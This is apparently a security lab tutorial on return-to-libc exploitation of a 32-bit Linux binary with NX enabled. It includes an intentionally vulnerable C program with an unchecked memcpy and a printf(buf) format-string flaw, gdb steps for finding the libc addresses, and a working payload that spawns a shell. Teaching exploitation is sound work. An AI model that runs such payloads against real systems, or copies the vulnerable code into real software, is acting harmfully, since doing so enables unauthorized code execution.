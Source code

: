 # Return-to-libc

The purpose of this lab is to famialiarize with a ret-to-libc technique which is used to exploit buffer overflow vulnerabilities on systems where stack memory is protected with `no execute` \(NX\) bit.

## Overview

{% hint style="info" %}
The ret-to-libc technique is applicable to \*nix systems.
{% endhint %}

In standard stack-based buffer overflow, an attacker can write their shellcode into the vulnerable program's stack and execute it from there. 

If the vulnerable program's stack is protected \(NX bit is set\), the attacker can no longer execute their shellcode from the vulnerable program's stack. Ret-to-libc technique allows the attacker to bypass the NX bit protection and subvert the vulnerable program by re-using existing executable code from the standard C library shared object \(/lib/i386-linux-gnu/libc-\*.so\), that is loaded into the vulnerable program's virtual memory space.

At a high level, ret-to-libc technique is similar to a regular stack overflow, with one key difference - instead of overwritting the return address with address of the shellcode when exploiting a regular stack overflow with no stack protection, in ret-to-libc case, the return address is overwritten with a memory address that points to the function `system(const char *command)` that lives in the `libc`, so that when the overflowed program wants to return, it jumps to the `system()` function and executes the shell command that was passed to the function as `*command` argument. In our case, we want the vulnerable program to spawn a shell, so we will make it call `system("/bin/sh")`.

### Diagram

Below is a simplified diagram of the ret-to-libc exploitation process that we will go through in this lab:

![High level overview of ret-to-libc technique for a 32-bit vulnerable program](../../../.gitbook/assets/image%20%28834%29.png)

Points to note in the overflowed buffer:

1. EIP is overwritten with address of the `system()` function located inside `libc`;
2. Right after the address of `system()`, there's address of the function `exit()`, so that once `system()` `returns`, the vulnerable program can gracefully exit by jumping to the `exit()`;
3. Right after the address of `exit()`, there's a pointer to a memory location that contains the string `/bin/sh` which we want the `system()` to execute.

### Stack Layout

From the above diagram \(after overflow\), if you are wondering why, when looking from top to bottom, the stack's contents are:

1. Address of the `/bin/sh` string
2. Address of the `exit()` function
3. Address of the `system()` function

...we need to remember what happens with the stack when a function is called:

1. Function arguments are pushed on to the stack in reverse order, meaning the left-most argument will be pushed last;
2. Return address, telling the program where to return after the function completes, is pushed;
3. EBP is pushed;
4. Local variables are pushed.

With the above, it should now be clear why the overflowed stack looks that way - essentially, we manually built a stack frame for the `system()` function and pushed its argument - address that contains a string `/bin/sh` and a return address, which the vulnerable program should jump to once the `system()` call completes, which in our case is the address of the function `exit()`.

## Vulnerable Program

The below is our vulnerable program for this lab, which takes user input as a commandline argument and copies it to a memory location inside the program, without checking if the user supplied buffer is bigger than the allocated memory:

{% code title="vulnerable.c" %}
```cpp
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buf[8];
    memcpy(buf, argv[1], strlen(argv[1]));
    printf(buf);
}
```
{% endcode %}

Let's compile it:

```csharp
cc vulnerable.c -mpreferred-stack-boundary=2 -o vulnerable
```

![Vulnerable program compiled](../../../.gitbook/assets/image%20%28836%29.png)

Let's execute it via gdb \(1\), set a breakpoint on the function `main` \(2\) and continue the execution \(3\):

```text
gdb vulnerable anything
b main
r
```

![Spawn vulnerable program with gdb, getting our hands dirty](../../../.gitbook/assets/image%20%28849%29.png)

Additionally, we can confirm our binary has various protections enabled for it with the key one for this lab being the NX:

```text
checksec
```

![Protections overview for the vulnerable program](../../../.gitbook/assets/image%20%28837%29.png)

## Finding system\(\)

By doing:

```csharp
p system
```

We can see, that the function `system` resides at memory location `0xb7e13870` inside the vulnerable program in the `libc` library:

![system\(\) is located at 0xb7e13870](../../../.gitbook/assets/image%20%28839%29.png)

## Finding exit\(\)

The same way, we can find that exit resides at `0xb7e06c30`:

![exit\(\) is located at 0xb7e06c30](../../../.gitbook/assets/image%20%28847%29.png)

## Finding /bin/sh

We want the vulnerable program to call `system("bin/bash")` and spawn a shell for us. 

We need to remember that `system` function is declared as `system(const char *command)`, meaning if we want to invoke it, we need to pass it a memory address that contains the string that we want it to execute \(which in our case is the `/bin/bash`\). We need to find a memory location inside the vulnerable program that points to `/bin/bash` and luckily, it's known that the `libc` contains that string, so let's find it.

Let's see the memory layout of the vulnerable program and look for the start address of the where the `libc` is loaded to:

```csharp
gdb-peda$ info proc map
```

Below shows that `/lib/i386-linux-gnu/libc-2.27.so` starts at `0xb7dd6000`:

![libc is loaded at 0xb7dd6000](../../../.gitbook/assets/image%20%28852%29.png)

We can now use the `strings` utility to find the offset of string `/bin/sh` relative to the start of the `libc` binary and see that it is at `0x17c968`:

```csharp
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

![/bin/sh is at offset 0x17c968 from the start of libc](../../../.gitbook/assets/image%20%28843%29.png)

...which means, that in our vulnerable program, at address `0xb7f52968` \(0xb7dd6000 + 17c968\), we should see the string `/bin/sh`, so let's test it:

```csharp
x/s 0xb7f52968
```

Below shows that `/bin/sh` indeed lives at `0xb7f52968`:

![/bin/sh inside vulnerable program is located at 0xb7f52968](../../../.gitbook/assets/image%20%28844%29.png)

## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` \(located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness\), which will execute `/bin/sh` that's present in  `0xb7f52968` \(expressed as `\x68\x29\xf5\xb7`\), we can execute the exploit like so:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

...and observe the `/bin/sh` get executed:

![Vulnerable program spawns a /bin/sh shell](../../../.gitbook/assets/image%20%28842%29.png)

## References

[https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)

[https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf)

